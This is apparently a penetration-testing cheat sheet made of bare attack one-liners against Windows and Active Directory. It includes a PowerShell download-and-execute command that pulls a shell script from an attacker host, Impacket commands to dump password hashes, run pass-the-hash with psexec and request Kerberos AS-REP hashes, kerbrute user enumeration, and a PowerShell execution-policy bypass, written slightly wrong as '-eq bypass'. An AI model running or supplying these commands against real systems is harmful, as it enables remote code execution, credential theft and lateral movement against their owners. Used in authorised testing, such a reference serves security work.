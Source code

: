 ```
# On Target
cmd> powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://{LHOST}/shell.ps1\");"
```

# Windows Password

### Dump Hashes
```
# Secrets Dumps
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py {USER}:{PASSWORD}@{TARGET}
```

# Pass the Hash Attack

```
# PS Exec
python3 /usr/share/doc/python3-impacket/examples/psexec.py {USER}@{TARGET} -hashes {LMHASH:NTHASH}
```

# Kerberos

### Enum Users
```
./kerbrute_linux_386 userenum --dc {TAGET} -d {DNS} {USERS_FILE}
```

### Users Password Hash
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip {TARGET} {DNS}/{USER}
```

# PowerShell

### Spawn from CMD
```
# Default
C:\Windows\system32> powershell

# Bypassing Policies
C:\Windows\system32> powershell -eq bypass
```

### Hidden Files
```
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```
